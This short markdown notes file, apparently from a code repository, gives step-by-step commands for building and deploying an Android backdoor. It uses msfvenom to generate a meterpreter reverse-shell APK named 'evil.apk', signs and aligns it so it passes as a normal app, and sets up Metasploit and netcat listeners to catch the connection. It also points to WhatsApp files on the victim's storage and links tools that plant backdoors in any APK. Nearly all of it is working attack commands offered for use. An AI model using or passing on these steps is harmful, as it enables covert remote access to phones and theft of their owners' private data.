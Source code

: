# Notes

## generate backdoor .apk
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=localhost LPORT=4444 R > evil.apk
```

## sign .apk
```bash
# generate keystore
keytool -genkey -v -keystore key.jks -keyalg RSA -keysize 2048 -validity 10000 -alias alias

# sign .apk
jarsigner -keystore key.jks -keypass <your-password> evil.apk <your-alias>

# align .apk
zipalign -v 4 evil.apk evil-signed.apk
```

## exploit
```bash
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST localhost
set LPORT 4444
exploit

help
```

## listen from netcat
```bash
nc -nlvp 443
```

## list payloads
```bash
msfvenom -l payloads | grep -i "android"
```

### usefull paths
```bash
# sdcard files
cd /sdcard/
# whatsapp files
cd /sdcard/Whatsapp/
```
## backdoor in any .apk
[Source code](https://github.com/dana-at-cp/backdoor-apk)

## fixed backdoor .apk source code
[Fixed .apk](https://github.com/giovannicolonna/msfvenom-backdoor-android/)
